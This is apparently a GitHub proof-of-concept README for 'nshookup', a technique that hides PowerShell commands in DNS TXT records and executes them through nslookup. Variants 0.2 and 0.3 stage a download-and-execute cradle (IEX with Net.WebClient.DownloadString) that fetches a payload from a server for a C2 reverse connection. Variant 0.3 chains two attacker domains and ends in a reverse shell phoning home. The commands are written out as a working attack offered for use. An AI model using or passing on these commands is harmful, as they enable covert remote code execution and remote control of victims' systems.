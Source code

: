 ### Variant 0.1
Commands are stored as TXT entries on a DNS server and requested via nslookup (a.k.a "nshookup").<br><br>
Client executing:.<br>
`powershell (nslookup -q=txt domain.com)[5]`<br><br>
DNS Server entry:<br>
`ping google.com`<br><br>
*EXPLANATION: nslookup.exe calls the TXT entry through DNS as subprocess from powershell. This way the stored commands get transmitted over DNS and executed in the context of the current (powershell) process. The number in the brackets stands for the index (five being the first possible one) of the command. It is also possible to use "[-1]" should there be only a single command available as TXT entry.*<br><br>

The outcome is `powershell ping google.com` being executed in the current session on the clients system.

![GRAPHIC_1](https://github.com/Dood3/PoCs/assets/93183445/ed4ab94c-44fa-4cde-924b-10f26ebbc169)


### Variant 0.2
-> Commands are stored as TXT entries on a DNS server to host a payload/stager for a  reverse connection to a C2 server (Havoc, Empire, etc.).<br><br>
Client executing:<br>
`powershell (nslookup -q=txt domain.com)[5]`<br><br>
DNS Server entry:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: Again, the TXT enty is interpreted as legitimate command through parent & child process being powershell and a DNS request respectively.
The file hosting the payload is not bound to any file formats. A simple file without suffix will work. 
This request will most likely trigger AV (AMSI). If "IEX" doesn't get caught, the delivered payload itself will.*<br>

 ![GRAPHIC_2](https://github.com/Dood3/PoCs/assets/93183445/b9052342-258e-4e92-8559-abdec97e44b8)


### Variant 0.3
-> Commands are stored as TXT entries on a domain1.com to host another nslookup command requesting entries from domain2.com.<br><br>
Client executing:<br>
`powershell (nslookup -q=txt domain1.com)[5]`<br><br>
DNS Server entry (the index may vary):<br>
`powershell (nslookup -q=txt domain2.com)[5]`<br><br>
DNS Server TXT entry on domain2.com:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: The commands can be chained together with a combination of dns servers. The client requests the first domain, which in return requests the actual commands.on the second server.*<br>
This will most likely trigger AV (AMSI).<br>

1. `powershell (nslookup -q=txt bad-domain.com)[5]`<br>
2. `powershell (nslookup -q=txt bad-domain_2.com)[5]`<br>
3. `Command gets delivered to Client (over dns)`<br>
4. `Reverse shell phoning home`<br>

  ![GRAPHIC_3](https://github.com/Dood3/PoCs/assets/93183445/3243575e-8f56-478b-bf27-f3a1d4788557)

